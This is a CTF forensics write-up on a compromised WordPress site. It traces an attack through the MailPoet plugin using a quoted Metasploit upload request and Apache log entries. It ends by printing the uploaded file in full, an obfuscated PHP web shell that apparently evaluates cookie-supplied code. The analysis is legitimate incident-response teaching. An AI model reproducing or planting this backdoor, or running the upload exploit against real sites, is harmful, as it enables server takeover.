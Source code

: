![](/images/2014/csaw/fluffynomore/mailpoet.png)

Mail Poet newsletter pulled my attention as it was the only plugin that was alerting that a new version was available, so why not look in public repositories if an exploit for the installed version is available?

I browsed exploit-db and it resulted that a metasploit module to gain remote code execution on this specific wordpress plugin is available.

![](/images/2014/csaw/fluffynomore/edb.png)

By a quick look at the exploit code, it's possible to figure out that an attacker can upload an arbitrary payload by sending the following POST request

```ruby
res = send_request_cgi({
  'method'   => 'POST',
  'uri'      => uri,
  'ctype'    => "multipart/form-data; boundary=#{data.bound}",
  'vars_get' => { 'page' => 'wysija_campaigns', 'action' => 'themes' },
  'data'     => post_data
})
```

and if we look at the apache access log, we could find:

	192.168.127.140 - - [16/Sep/2014:20:42:54 +0000] "POST /wp-admin/admin-post.php?page=wysija_campaigns&action=themes HTTP/1.1" 302 385 "-" "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)"

Ok, now let's see if we can find the uploaded malicious file, according to the exploit code, the call for the payload is done as follows:

```ruby
	payload_uri = normalize_uri(target_uri.path, 'wp-content', 'uploads', 'wysija', 'themes', theme_name, payload_name)
```

so by grepping the logs again we could find

	192.168.127.140 - - [16/Sep/2014:20:42:54 +0000] "GET /wp-content/uploads/wysija/themes/weblizer/template.php HTTP/1.1" 200 165 "-" "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)

Let's give a look at this file, it's most likely gonna be malicious, and in fact

```php
<?php
$hije = str_replace("ey","","seyteyrey_reyeeypleyaeyceye");
$andp="JsqGMsq9J2NvdW50JzskYT0kX0NPT0tJRTtpZihyZXNldCgkYSsqk9PSdoYScgJisqYgsqJsqGMoJ";
$rhhm="nsqKSwgam9pbihhcnJheV9zbGljZSgkYSwksqYygkYSksqtMykpKSksqpO2VjaG8sqgJsqzwvJy4kay4nPic7fQ==";
$pvqw="GEpPjMpeyRrPSdja2l0JztlY2hvICc8Jy4kaysq4nPicsq7ZXZhbChsqiYXNlNjRfZGVjb2RlKHByZsqWdfcmVw";
$wfrm="bGFjZShhcnsqJheSsqgsqnsqL1teXHcsq9XHNdLycsJy9ccy8nKSwgYsqXJyYXksqoJycsJyssq";
$vyoh = $hije("n", "", "nbnansne64n_ndnecode");
$bpzy = $hije("z","","zczreaztzez_zfzuznzcztzizon");
$xhju = $bpzy('', $vyoh($hije("sq", "", $andp.$pvqw.$wfrm.$rhhm))); $xhju();
?>
```
